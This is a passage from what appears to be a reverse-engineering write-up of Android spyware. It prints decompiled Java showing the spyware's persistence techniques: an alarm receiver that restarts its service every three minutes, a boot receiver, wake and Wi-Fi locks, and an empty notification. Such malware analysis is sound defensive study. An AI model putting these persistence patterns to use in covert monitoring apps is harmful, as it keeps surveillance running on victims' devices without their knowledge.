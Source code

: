 ```java
    TimerTask taskx = new TimerTask() { // from class: com.example.dat.a8andoserverx.MainService.3
        @Override // java.util.TimerTask, java.lang.Runnable
        public void run() {
            MainService.this.pasterx++;
        }
    };
```
`taskx` is used to increase the value of `pasterx` by 1 every second. After 600 seconds, the connection to the socket `so` is closed which is handled by `task`.

<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-02.png'>

The `onStartCommand` method is run after the `onCreate` method finishes its execution. Here, an empty notification is generated. After generating the empty notification, the spyware creates a reference-counted `WifiLock`. By acquiring a WifiLock, the application ensures that the Wi-Fi radio remains active, even when the user becomes inactive. Reference-counted Wifilocks ensure the the Wi-Fi radio sleeps only when the number of calls to `acquire()` have been balanced by the number of calls to `release()`. Subsequently, the application acquires a `WAKE_LOCK`. Acquiring wake lock ensures that the device remains active and doesn't go into sleep mode /standby for saving power. A repeating alarm is setup that runs every 3 minutes. Whenever the alarm runs, the `onReceive` method of the broadcast receiver `AlarmReceiver` is called which checks whether the `MainService` is already running or not. If the service is not running, it will be started.
```java
public class AlarmReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        if (!isMyServiceRunning(MainService.class, context)) {
            if (Build.VERSION.SDK_INT >= 23) {
                Intent serviceIntent = new Intent(context, MainService.class);
                serviceIntent.putExtra("inputExtra", "InsiteMobileService");
                ContextCompat.startForegroundService(context, serviceIntent);
                return;
            }
            Intent myService = new Intent(context, MainService.class);
            context.startService(myService);
        }
    }

    private boolean isMyServiceRunning(Class<?> serviceClass, Context context) {
        ActivityManager manager = (ActivityManager) context.getSystemService("activity");
        for (ActivityManager.RunningServiceInfo service : manager.getRunningServices(ActivityChooserView.ActivityChooserViewAdapter.MAX_ACTIVITY_COUNT_UNLIMITED)) {
            if (serviceClass.getName().equals(service.service.getClassName())) {
                return true;
            }
        }
        return false;
    }
}
```
### com.example.dat.a8andoserverx.MyReceiver
This broadcast receiver is used to start `MainService` on system startup which is a major step to ensure persistence.
```java
public class MyReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        if ("android.intent.action.BOOT_COMPLETED".equals(intent.getAction())) {
            if (Build.VERSION.SDK_INT >= 23) {
                Intent serviceIntent = new Intent(context, MainService.class);
                serviceIntent.putExtra("inputExtra", "InsiteMobileService");
                ContextCompat.startForegroundService(context, serviceIntent);
                return;
```